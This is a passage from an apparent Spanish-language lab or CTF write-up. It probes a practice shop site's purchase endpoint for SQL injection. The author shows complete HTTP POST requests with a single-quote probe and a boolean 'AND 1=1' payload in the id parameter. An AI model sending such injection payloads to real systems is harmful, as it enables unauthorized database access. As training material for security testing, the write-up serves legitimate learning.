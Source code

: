 Dejando la peticion de la siguiente forma:

```
POST /compras.php HTTP/1.1
Host: neomarket.bbl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: http://neomarket.bbl
Connection: keep-alive
Referer: http://neomarket.bbl/compras.php
Cookie: PHPSESSID=a38g9k6en1cd6p4mdhnmr6iduh; registros=2; consultas=6
Upgrade-Insecure-Requests: 1
Priority: u=0, i

id=1'&cantidad=5&buy_articulo=Comprar
```

Cuando lo enviemos veremos que la respuesta del servidor es la siguiente:

<figure><img src="../../.gitbook/assets/image (330).png" alt=""><figcaption></figcaption></figure>

Por lo que si es vulnerable ya que esta habiendo algun error a nivel de codigo y el servidor no lo puede llegar a procesar bien ya que se esta tragando la `'` y peta, por lo que vamos a probar a meter algunos `payloads` para ver por donde va la tecnica.

Si probamos a meter lo siguiente:

```
id=1'+AND+1=1--+-
```

Dejando la peticion de esta forma:

```
POST /compras.php HTTP/1.1
Host: neomarket.bbl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Origin: http://neomarket.bbl
Connection: keep-alive
Referer: http://neomarket.bbl/compras.php
Cookie: PHPSESSID=a38g9k6en1cd6p4mdhnmr6iduh; registros=2; consultas=6
Upgrade-Insecure-Requests: 1
Priority: u=0, i

id=1'+AND+1=1--+-&cantidad=1&buy_articulo=Comprar
```
